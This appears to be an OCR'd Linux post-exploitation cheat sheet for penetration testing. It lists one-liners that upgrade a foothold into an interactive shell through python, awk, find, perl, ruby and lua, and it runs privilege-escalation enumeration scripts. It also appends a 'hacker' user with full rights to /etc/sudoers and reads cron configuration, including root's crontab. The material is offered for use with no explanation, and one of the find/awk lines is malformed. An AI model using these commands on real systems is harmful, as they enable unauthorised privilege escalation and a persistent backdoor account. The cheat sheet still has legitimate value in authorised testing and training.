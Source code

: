Run pspy64

```
#https://github.com/DominicBreuker/pspy

Run in background and watch for any processes running
```

Spawn TTY

```
#https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
awk 'BEGIN {system("/bin/sh")}'
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb(main:001:0> exec "/bin/sh"
Can also use socat
```

Enum Scripts

```
cd /EscalationServer/
chmod u+x linux_enum.sh
chmod 700 linuxenum.py

./linux_enum.sh
python linuxenum.py
```

Add User to Sudoers

```
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

List CronJobs

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
